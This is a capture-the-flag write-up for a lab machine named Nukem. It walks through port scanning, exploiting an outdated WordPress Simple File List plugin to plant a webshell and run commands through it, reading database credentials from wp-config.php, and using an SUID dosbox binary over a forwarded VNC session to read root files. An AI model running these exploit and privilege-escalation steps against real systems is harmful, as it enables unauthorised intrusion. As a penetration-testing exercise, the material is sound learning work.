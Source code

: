 # Nukem

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:50 +08
Nmap scan report for 192.168.183.105
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
5000/tcp  open  upnp
13000/tcp open  unknown
36445/tcp open  unknown
```

RDP is open. Ran a detailed scan as well:

```
$ sudo nmap -p 80,5000,13000 -sC -sV --min-rate 3000 192.168.183.105
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:53 +08
Nmap scan report for 192.168.183.105
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
13000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
```

First thing I took note of was the outdated Wordpress site on port 80.

### Wordpress --> RCE

I ran a `wpscan` on the port 80 application.&#x20;

```
$ wpscan --api-token <API> --enumerate p,t,u --url http://192.168.183.105
```

There were loads of vulnerabilities, but the one that looked the easiest to exploit was the Simple File List RCE:

```
[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.183.105/wp-content/plugins/simple-file-list/
 | Last Updated: 2023-06-08T11:52:00.000Z
 | [!] The version is out of date, the latest version is 6.1.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: Simple File List < 4.2.3 - Unauthenticated Arbitrary File Upload RCE
 |     Fixed in: 4.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/365da9c5-a8d0-45f6-863c-1b1926ffd574
 |      - https://simplefilelist.com/
 |      - https://plugins.trac.wordpress.org/changeset/2286920/simple-file-list
 |      - https://packetstormsecurity.com/files/160221/
```

Unauthenticated = good in this case. `searchsploit` shows that there are 2 exploits publicly available:

```
$ searchsploit Wordpress Plugin simple file list
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Simple File List 4.2.2 - Arbitrary File U | php/webapps/48979.py
WordPress Plugin Simple File List 4.2.2 - Remote Code Exec | php/webapps/48449.py
----------------------------------------------------------- ---------------------------------
```

I found that the first one worked better. Within the exploit, I also changed the payload to drop a webshell instead:

<figure><img src="../../../.gitbook/assets/image (2922).png" alt=""><figcaption></figcaption></figure>

We can then run the exploit and confirm that it works:

```
$ python3 48979.py http://192.168.183.105
[ ] File 4345.png generated with password: 7a1538697392c42d7dbfb559c6fb67aa
[ ] File uploaded at http://192.168.183.105/wp-content/uploads/simple-file-list/4345.png
[ ] File moved to http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php
[+] Exploit seem to work.
[*] Confirmning ...

$ curl http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php?cmd=id
uid=33(http) gid=33(http) groups=33(http)
```

Tested loads of ports, and only reverse shells to port 80 work:

<figure><img src="../../../.gitbook/assets/image (1595).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Commander Creds

The `/srv/html/wp-config.php` file contained some creds for the user `commander`:

```php
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

<figure><img src="../../../.gitbook/assets/image (2467).png" alt=""><figcaption></figcaption></figure>

### VNC + Dosbox SUID

I checked the SUID binaries available and found `dosbox` was one of them.

```
[commander@nukem ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/dosbox
```

`dosbox` SUID privilege escalation exploits require a GUI to work, and conveniently, VNC on port 5901 is available on the machine:

```
[commander@nukem ~]$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      401/Xvnc            
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:36445           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:13000           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::3306                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::36445                :::*                    LISTEN      - 
```

Also, within the user's directory, there's a `.vnc` file which presumably contains credentials we need:

```
[commander@nukem ~]$ ls -la .vnc
total 20
drwxr-xr-x  2 commander root      4096 Sep 18  2020 .
drwxr-xr-x 11 commander commander 4096 Jul 12 11:03 ..
-rw-r--r--  1 commander root        54 Sep 18  2020 config
-rw-r--r--  1 commander commander 3479 Feb 17 19:27 nukem:1.log
-rw-------  1 commander commander    8 Sep 18  2020 passwd
```

We can transfer the small `passwd` file over to our machine via `base64` encoding. Then, we can port forward VNC via `chisel`. Using `vncviewer`, we can connect to it:

```
$ vncviewer -passwd passwd 127.0.0.1:5901
```

<figure><img src="../../../.gitbook/assets/image (2925).png" alt=""><figcaption></figcaption></figure>

Within the terminal we can run this:

```
dosbox -c 'mount c /' -c "type c:$LFILE"
```

This would spawn a `dosbox` instance (which is basically a cmd.exe instance). Using the `C:` command, we can view the `root` flag:

<figure><img src="../../../.gitbook/assets/image (2937).png" alt=""><figcaption></figcaption></figure>

There's no scrolling on this Dosbox instance, and the handling of control characters is a little inaccurate (so you can't really backspace). Other than that, we have `root` access over the file system and can do whatever we want.&#x20;

Rooted!
